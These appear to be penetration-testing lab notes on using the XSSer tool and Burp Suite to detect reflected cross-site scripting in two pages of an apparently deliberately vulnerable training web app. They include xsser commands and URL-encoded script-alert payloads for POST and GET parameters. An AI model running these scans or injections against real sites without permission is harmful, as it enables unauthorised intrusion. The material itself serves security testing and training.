 ## xsser

For help `xsser --help`

### POST Request

Using burp grab the string at the bottom of the capture:
```html
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: 192.27.117.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.27.117.3/index.php?page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Connection: close
Cookie: PHPSESSID=phenufoqo4kahufispj4gra1u5; showhints=1
Upgrade-Insecure-Requests: 1

target_host=worms&dns-lookup-php-submit-button=Lookup+DNS
```

To see if the target is  vulerable, craft the xsser command as replacing the search value with "xss"
```bash
xsser --url 'http://$IP/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Can also add `--auto` at the end to try various payloads

Add a custom payload via:
```bash
xsser --url 'http://$IP/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

Then use the resulting value back into burp repeater:
```bash
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E%0A&dns-lookup-php-submit-button=Lookup+DNS
```

### GET request

Same process from browser instead of burp

Copy the URL, replace the nmap value with "XSS" and pass it to XSSer URL: `http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=jd&user-p oll-php-submit-button=Submit+Vote`

Command: 
```bash
xsser --url “http://$IP/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote”
```

Then copy the xss command from xsser into URL and script will run:
```bash
http://$IP/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281 %29%3C%2Fscript%3E&initials=jd&user-poll-php-submit-button=Submit+Vote
```



